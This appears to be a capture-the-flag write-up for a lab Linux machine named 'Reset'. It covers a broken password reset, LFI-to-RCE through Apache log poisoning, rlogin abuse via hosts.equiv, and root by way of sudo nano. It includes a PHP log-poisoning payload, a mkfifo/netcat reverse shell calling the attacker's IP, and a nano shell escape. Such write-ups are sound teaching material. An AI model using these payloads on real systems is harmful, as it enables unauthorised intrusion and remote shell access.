`Reset` is an easy-difficulty Linux machine that starts with a broken password reset flow on an admin login page, which hands out a new password hidden within the response. From the admin dashboard, a `file` parameter exposes a local file inclusion vulnerability that gets turned into remote code execution by poisoning the Apache access log through the User-Agent header.

For lateral movement, the box exposes ancient BSD `r-services` (on ports 512/513/514), and a wide-open `/etc/hosts.equiv` trusts the `sadm` user from any host, letting us `rlogin` in by simply creating a matching local user. Privilege escalation comes from a detached `tmux` session that leaks the `sadm` sudo password, which we then use to abuse `sudo nano` and drop into a root shell.

## Enumeration

Like always, start with a full TCP SYN scan:

```
┌──(corey㉿kali)-[~/htb/Reset]
└─$ nmap 10.129.234.130 -sS -p- -T4
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-25 18:37 -0400
Nmap scan report for 10.129.234.130
Host is up (0.079s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
512/tcp open  exec
513/tcp open  login
514/tcp open  shell
```

Then an aggressive scan on the open ports identified:

```
┌──(corey㉿kali)-[~/htb/Reset]
└─$ nmap 10.129.234.130 -A -p22,80,512,513,514 -T4 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-25 19:54 -0400
Nmap scan report for 10.129.234.130
Host is up (0.042s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6a:16:1f:c8:fe:fd:e3:98:a6:85:cf:fe:7b:0e:60:aa (ECDSA)
|_  256 e4:08:cc:5f:8e:56:25:8f:38:c3:ec:df:b8:86:0c:69 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Admin Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
512/tcp open  exec    netkit-rsh rexecd
513/tcp open  login?
514/tcp open  shell   Netkit rshd
```

A few things stand out right away. The web server on port 80 is an Apache-hosted "Admin Login" page, and the `PHPSESSID` cookie is set without the `HttpOnly` flag, so any XSS here would be able to read `document.cookie`. More interesting are ports 512, 513, and 514. These are BSD r-services, which you basically never see in the wild anymore. I'm noting them now and coming back to them later. Since this is an easy box, their presence is a big hint that they're part of the intended path.

The obvious attack surface is the web app so that's where we'll start.

## Password Reset on the Web App

Navigating to the site gives us the admin login page:



Curling the headers confirms what nmap told us:

```
┌──(corey㉿kali)-[~/htb/Reset]
└─$ curl -I http://10.129.234.130/    
HTTP/1.1 200 OK
Date: Sun, 25 Oct 2026 23:57:12 GMT
Server: Apache/2.4.52 (Ubuntu)
Set-Cookie: PHPSESSID=ur3cr3467o3thr2mqt1051p391; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8


```

There's a "Forgot Password?" button on the login form:



Let's throw a test username at it and watch the traffic in Burp. The form sends a POST to `/reset_password.php`:

```
POST /reset_password.php HTTP/1.1
Host: 10.129.234.130
Content-Length: 13
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Origin: http://10.129.234.130
Referer: http://10.129.234.130/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=cc0p62ah2m1b2pe0pqvl5j9o77
Connection: keep-alive

username=test
```

And the response:

```
HTTP/1.1 200 OK
Date: Sun, 25 Oct 2026 23:58:32 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 26
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"error":"User not found"}
```

We can see the same error reflected in the app:



That "User not found" response is a username enumeration issue on its own which would be a valid finding in a real engagement. But since this is an admin login, we don't need to get fancy. Let's just try the obvious ones:

- admin
- administrator
- root

`admin` lands:



Request:

```
POST /reset_password.php HTTP/1.1
Host: 10.129.234.130
Content-Length: 14
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Origin: http://10.129.234.130
Referer: http://10.129.234.130/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=cc0p62ah2m1b2pe0pqvl5j9o77
Connection: keep-alive

username=admin
```

Response:

```
HTTP/1.1 200 OK
Date: Mon, 26 Oct 2026 00:00:40 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 80
Keep-Alive: timeout=5, max=97
Connection: Keep-Alive
Content-Type: application/json

{"username":"admin","new_password":"f26ba95b","timestamp":"2026-10-26 00:00:40"}
```

The reset endpoint just hands back a brand new password in the response body. No email, no token, no verification of any kind. Whoever hits this endpoint for `admin`, or any other valid user, gets the new password. So we log in with `admin:f26ba95b`:



## Admin Access and LFI

We now have access to `dashboard.php`:



The dashboard has a feature to view logs like `syslog` and `auth.log`, their full file path is passed straight through a `file` parameter as shown in the requests below:

```
POST /dashboard.php HTTP/1.1
Host: 10.129.234.130
...
Cookie: PHPSESSID=cc0p62ah2m1b2pe0pqvl5j9o77
Connection: keep-alive

file=%2Fvar%2Flog%2Fsyslog
```

```
POST /dashboard.php HTTP/1.1
Host: 10.129.234.130
...
Cookie: PHPSESSID=cc0p62ah2m1b2pe0pqvl5j9o77
Connection: keep-alive

file=%2Fvar%2Flog%2Fauth.log
```

Those two don't render anything useful on the page, but a parameter that takes a raw file path is a textbook local file inclusion setup. Let's try pulling a couple of standard files:

- `/etc/passwd`
- `/etc/hostname`

Both come back with an HTTP 400 and an "Invalid file path" error, so there's some kind of filter in place:



The filter blocks arbitrary paths, but we already know the app happily reads files under `/var/log`. Since nmap told us this is Apache, the access log sits at the default `/var/log/apache2/access.log`. Let's point `file` at that:





After sending a few requests to populate it, our own traffic shows up in the log:

```
10.10.14.239 - - [26/Oct/2026:00:10:28 +0000] "POST /dashboard.php HTTP/1.1" 200 1169 "http://10.129.234.130/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
10.10.14.239 - - [26/Oct/2026:00:11:05 +0000] "POST /dashboard.php HTTP/1.1" 200 1341 "http://10.129.234.130/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
10.10.14.239 - - [26/Oct/2026:00:11:09 +0000] "POST /dashboard.php HTTP/1.1" 200 1360 "http://10.129.234.130/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
```

The key detail here is that our User-Agent is being written into the log verbatim. The good part is we have full control over that header, and the app reads the log back to us through what's almost certainly a PHP `include`. That's the recipe for log poisoning into RCE.

## Initial Access via Log Poisoning

Since the User-Agent ends up in the log, we can set it to whatever we want. First let's strip the request down to the bare minimum:

```
GET /dashboard.php HTTP/1.1
Host: 10.129.234.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Cookie: PHPSESSID=q44pjqm1ndutih2jdllafenc9h

```

Now swap the User-Agent for a test value to confirm it lands:

```
GET /dashboard.php HTTP/1.1
Host: 10.129.234.130
User-Agent: TESTING_TESTING_TESTING
Cookie: PHPSESSID=q44pjqm1ndutih2jdllafenc9h

```

Send it a few times and check the log through the LFI:



Our marker shows up, so the next step is to see whether PHP in the User-Agent actually executes when the log is included. Start with a simple `id`:

```
GET /dashboard.php HTTP/1.1
Host: 10.129.234.130
User-Agent: <?php echo shell_exec('id'); ?>
Cookie: PHPSESSID=q44pjqm1ndutih2jdllafenc9h

```

Send that a handful of times and read the log again:



We get `uid=33(www-data)` where our poisoned line sits, which confirms the PHP is being executed rather than just displayed. The LFI is now confirmed RCE.

With that working, let's go straight for a named-pipe PHP reverse shell. I like this one because it doesn't depend on `/dev/tcp` or a specific free file descriptor, it builds its own bidirectional channel through a FIFO so it tends to "just work" as long as `nc` is present:

```
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.239 443 >/tmp/f'); ?>
```

Full request:

```
GET /dashboard.php HTTP/1.1
Host: 10.129.234.130
User-Agent: <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.239 443 >/tmp/f'); ?>
Cookie: PHPSESSID=q44pjqm1ndutih2jdllafenc9h

```

Start a listener:

```
┌──(corey㉿kali)-[~/htb/Reset]
└─$ nc -lvnp 443
```

Poison the log with that request, then send the POST that includes the access log to trigger it:



And the listener catches a shell:



Let's stabilize it:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

## User Flag

With a stable shell as `www-data`, grab the user flag:




## Lateral Movement via r-services

First let's check what our current user can do:



Something I glossed over earlier: `www-data` here is in the `adm` group, which grants read access to most of `/var/log`. That's worth a look, so I swept the logs for anything sensitive:

```
grep -riE 'pass|secret|token|api' /var/log/ 2>/dev/null 
```

Nothing useful came out of it, just some kernel strings and audit noise, no cleartext credentials. So the `adm` group is a dead end here, but it's a habit worth keeping since log-readable creds show up on plenty of boxes and real environments.

Circling back to those odd ports from the initial scan:

```
512/tcp open  exec    netkit-rsh rexecd
513/tcp open  login?
514/tcp open  shell   Netkit rshd
```

After a bit of research, these turn out to be BSD **r-services** which was the insecure predecessor to SSH, first released back in 1983! Instead of real authentication, they rely on host-based trust which is configured in `/etc/hosts.equiv`. As a member of `adm` we can read it:


In `hosts.equiv` syntax the `+` is a wildcard meaning "any host," so the line `+ sadm` grants the `sadm` user trusted access from any remote host with no password required.

The flaw in this trust model is that it's based on the *claimed* username and source host, it never verifies that our `sadm` is the same account as the target's `sadm`. So all we have to do is create a local `sadm` user on our attacker machine and log in as that trusted identity.

Create the user locally:

```
┌──(corey㉿kali)-[~/htb/Reset]
└─$ sudo useradd sadm             

┌──(corey㉿kali)-[~/htb/Reset]
└─$ sudo passwd sadm 
New password:  
Retype new password:  
passwd: password updated successfully
```

> **Note:** I took a break and came back later after the machine got reset, so the target IP changes from `10.129.234.130` to `10.129.119.151` from here on out.

Now switch to `sadm` and `rlogin` into the target:

```
┌──(corey㉿kali)-[~/htb/Reset]
└─$ su - sadm       
Password: 
su: warning: cannot change directory to /home/sadm: No such file or directory

$ whoami
sadm

$ rlogin sadm@10.129.119.151
```

It's as simple as that!



That drops us straight into a much more stable session on the box as `sadm`.

## Privilege Escalation via Sudo Nano

Time to work down the privesc checklist. After a few basic checks, I enumerated running processes with `ps aux` and found something interesting:



There's a detached `tmux` session running in the background named `sadm_session`. We can reattach it like so:

```
sadm@reset:~$ tmux attach -t sadm_session
```

Inside the session we find the following:



```
echo 7lE2PAfVHfjz4HpE | sudo -S nano /etc/firewall.sh
sadm@reset:~$ echo 7lE2PAfVHfjz4HpE | sudo -S nano /etc/firewall.sh
Too many errors from stdin
```

It looks like that’s the password for the sadm user since they’re trying to run `nano` as sudo.

Now that we have the password, let's see what `sadm` is allowed to run:



Since we can run `nano` as sudo on `/etc/firewall.sh`, we can open it and abuse nano's built-in command execution to spawn a root shell which can also be found on [`GTFOBins`](https://gtfobins.github.io/gtfobins/nano/).

Open the file:

```
sadm@reset:~$ sudo nano /etc/firewall.sh
```

Hit `CTRL+R` (Read File):



Then `CTRL+X` to switch to Execute Command:



At the prompt, enter:

```
reset; sh 1>&0 2>&0
```

